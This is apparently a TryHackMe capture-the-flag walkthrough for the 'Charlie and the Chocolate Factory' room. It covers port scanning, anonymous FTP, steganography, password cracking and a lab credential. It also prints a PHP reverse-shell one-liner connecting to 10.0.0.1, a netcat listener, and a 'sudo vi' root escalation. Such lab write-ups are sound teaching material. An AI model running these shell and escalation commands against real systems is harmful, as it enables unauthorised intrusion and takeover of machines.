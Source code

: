 ```yaml
---
layout: page
title: Charlie and The Chocolate Factory CTF WalkThrough
permalink: /CTF/chocolate
tags: TryHackMe
---
```

# Charlie and the Chocolate Factory
# ![front](/images/chocolate/banner.png)
[https://tryhackme.com/room/chocolatefactory](https://tryhackme.com/room/chocolatefactory)

## Open Ports:
```
nmap  $IP
```

## netcat 
netcat to all prots from 100 - 125
```
nc $IP 100
nc $IP 113
```
* found a link in port **113** : http://localhost/key_rev_key
* found a key file in link
* Revers engineering the file
```
strings key
```

## Ftp

* Anonymous login
* found an image 
```
get gumroom.jpg
```
* extract the image
```
steghide extarct -sf gumroom.jpg
```
* found b64.txt which has base64 encoded text
* decoding the text

* user password shadow file found
* crack the shadow file usig johnny


## Port 80
* Enter the username: charlie
* Enter the password found after cracking : cn7824

* After login found a bar that executes os commands
* Gaining reverse shell
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
* start listner
```
nc -lvnp 1234
```

**Now you have the access to the machine**
* go to /home/charlie

* You will find teleport file which is a id_rsa file(ssh-key)
* copy the contents of the file to host machine
* change the permission of the teleport file in the host machine
```
chmod 600 teleport
ssh -i teleport charlie@ip
```
## Port 22

* cd /home/charlie
```
cat uesr.txt
```
* see the permissions you have
```
sudo -l
```

* permission to run *vi* as sudo 
```
sudo vi -c '!/bin/bash'
```
* now you are root
## root 


* go to /root
```
python root.py
```
* Enter the key found after reversing

